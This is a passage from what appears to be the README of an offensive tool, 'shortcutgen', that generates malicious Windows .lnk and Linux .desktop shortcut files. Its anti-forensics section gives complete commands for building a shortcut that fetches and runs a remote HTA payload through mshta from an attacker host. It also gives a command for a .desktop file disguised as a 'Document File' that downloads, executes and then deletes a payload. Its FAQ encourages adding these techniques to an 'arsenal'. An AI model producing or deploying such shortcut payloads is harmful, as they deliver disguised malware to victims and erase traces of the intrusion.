 #### Anti-Forensics

You can of course self delete the payload after execution.

```
$ shortcutgen -p lnk -c "C:\Windows\System32\cmd.exe" -a "/c mshta.exe http[s]://<attacker_IP>/payload.hta & del %CD%\payload.lnk" --icon "C:\path\to" -w "minimized" --workingdirectory "C:\\Users\\Public\\" -o payload.lnk
```

Including `.desktop` file.

```
$ shortcutgen -p desktop -n "Document File" -c "wget" -a "wget -qO payload --no-check-certificate http://192.168.1.4/payload; chmod +x payload; ./payload& disown;sleep 2; rm \$(pwd)/payload.desktop" --workingdirectory "/tmp/" -w "false" -o payload.desktop
```

## Limitations

- The **HotKey** has not been implemented in `wine` so I can't make a feature for persistence. So much potential with this shortcut is gone :(

- A minor limitation that `wine` lacks choosing file formats as custom icons.

- Creating polyglot is not possible with `wine`'s own `copy` command. Only Windows native `copy` command works.

## FAQ (Frequent Asked Questions)

### Why didn't you use [pylnk](https://github.com/strayge/pylnk) library?

I could but I decided to implement a wrapper with `wine` which is much more suitable in a long term. Saves me a lot of trouble from reinventing my own library in case it gets abandoned. It's often best to explore more options to produce similar results.

### I want to understand how the Windows shell link works. Is there a technical whitepaper that does help me to make my own library?

The official Microsoft's own **MS-SHLLINK binary file format** can found [here](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink/16cb4ca1-9339-4d0c-a68d-bf1d6cc0f943?redirectedfrom=MSDN).

### Can I use the techniques for my project or other tradecraft for my own arsenal?

It is highly encouraged of you to understand how the shortcut generator is being processed then outputted. The GNU GPLv3 copyleft license grants you the right to inspect the source code, modify it to your needs, and redistribute with your own copy along with the source code.

## Troubleshooting
